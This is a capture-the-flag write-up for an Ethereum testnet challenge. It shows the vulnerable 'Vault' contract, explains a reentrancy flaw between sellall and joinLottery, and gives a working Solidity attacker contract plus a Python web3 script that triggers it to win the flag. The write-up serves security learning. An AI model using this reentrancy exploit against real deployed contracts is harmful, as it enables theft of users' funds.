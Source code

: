 ### Dejavu
![Dejavu CTFD](../.assets/dejavu_1.png)

The landing page of the webapp hints at a crypto website with the Connect Wallet button. The page's source code also hints at it being EVM based with the use of ethersjs

![Dejavu landing](../.assets/dejavu_2.png)

Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `Buy Flag` reveals the user must own 1e20 Haxor token, which costs 200 ETH

![dapp](../.assets/dejavu_4.png)

Searching for a the EVM wallet address format reveals a contract address (ca).

![devtools](../.assets/dejavu_5.png)

Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x1dd48718c62f2249c25b85c691cabe2f4d5d9cba) reveals the contract source code.

```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.8.25;

contract Vault {
    address private owner;
    mapping (address => uint256) private userBalances;
    mapping (address => bool) public willWin;
    mapping (address => address) private linkWallet;
    uint8 public TOKEN_PRICE = 2 wei;
    string public constant name = "Haxor";

    modifier noReentrant() {
      //Safe norentrancey modifier
      }

    function linkPayoutAddress(address newWallet) external payable {
        linkWallet[msg.sender] = newWallet;
    }

    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );
        userBalances[msg.sender] += _tokenToBuy;
        willWin[msg.sender] = false;
    }

    function sellall() external noReentrant {
        uint256 etherToTransfer = userBalances[msg.sender] * TOKEN_PRICE;
        require(etherToTransfer >= 0, "Insufficient balance");
        require(address(this).balance >= etherToTransfer, "Not enough eth on contract");
        willWin[msg.sender] = true; // only allow user win when they have 0 tokens lol
        (bool success, ) = msg.sender.call{value: etherToTransfer}(""); // this triggers the receive() function on exploit contract
        require(success, "Failed to send Ether");
        userBalances[msg.sender] = 0; // User haxor token balance is only set to 0 AFTER an external call has been mmade
    }

    function joinLottery() external {
        require(userBalances[msg.sender] >= 0, "Insufficient balance");
        require(linkWallet[msg.sender] != address(0), "Payout address not set");
        userBalances[msg.sender] = 0;
        if (willWin[msg.sender] == false){
        } else {
            userBalances[address(linkWallet[msg.sender])] += 100000000000000000000;
        }
    }
}
```
A smart contract that allows wallets buy tokens (at a fixed 2Wei price), sell tokens, and join the lottery. 

The Important things to note from the code are:
1. While the contract might seem vulnerable to an integer overflow attack via the unsafe multiplication in the buy function, it should be noted that for solidity 0.8.0 and above the [arithmetic operations revert on underflow and overflow](https://docs.soliditylang.org/en/v0.8.25/080-breaking-changes.html)
2. The contract's lottery is rigged to make the player lose by setting `willWin` value to `false` when user purchases tokens and to `true` after user has lost all their tokens
3. Winning the lottery adds `1e20` to the user balance
3. An external call is made with `(bool success, ) = msg.sender.call{value: etherToTransfer}("")`
4. `willWin` is set to true before the external call is made
5. The `sellall` function in not vulnerable to reentrancy attacks due to the `noReentrant` modifier
6. The `joinLottery` is vulnerable to reentrancy 

A reentrancy attack in Solidity occurs when a contract calls back into itself or another contract before completing its initial execution, potentially allowing unexpected behavior or manipulation of state variables.

An exploit contract is quickly spun up using [remix-ide](https://remix.ethereum.org/)

```solidity
pragma solidity ^0.8.25;

interface IEtherVault {
    function linkPayoutAddress(address newWallet) external payable;
    function buy(uint256 _tokenToBuy) external payable;
    function sellall() external;
    function joinLottery() external;
} 

contract Attacker{
    IEtherVault public immutable etherVault;
    constructor(IEtherVault _etherVault) {
        etherVault = _etherVault; // vault ca at defined at contract deployment
    }

    function attackInit(address payoutAddress) external payable { 
        require(msg.value >= 2 wei, "Too low"); // Each haxor token costs 2 wei
        etherVault.linkPayoutAddress(payoutAddress); // Set attacker wallet as payout address
        etherVault.buy{value: 2 wei}(uint256(1)); // Buy 1 haxor token
        etherVault.sellall(); // Sell all haxor token
    }
    receive() external payable { // This is function triggered by (bool success, ) = msg.sender.call{value: etherToTransfer}("") in vault contract
        etherVault.joinLottery(); // Join the lottery. Note that willWin[msg.sender] has already been set to true 
    }
}
```
To execute the contract functions, a quick python3 script is created

```python
contract_abi = [] # ABI of exploit contract from remix
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") # user wallet private keys
CONTRACT_ADDRESS = Web3.to_checksum_address("") # Exploit contract address 0xabb0739ce308f2faeae23a6e70c3bce7090a709a
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1)
AMT_TO_SPEND = 3 # Must be > 2wei

raw_data = TOKEN_CONTRACT.encodeABI("attackInit", args=[user_wallet.address]) # user wallet as payoutAddress
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": AMT_TO_SPEND,
            "gas": 210_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.toHex(txn_hash))
```

After confirming the transaction and refreshing the webapp, clicking the `Buy Flag` button reveals the flag
![devtools](../.assets/dejavu_6.png)
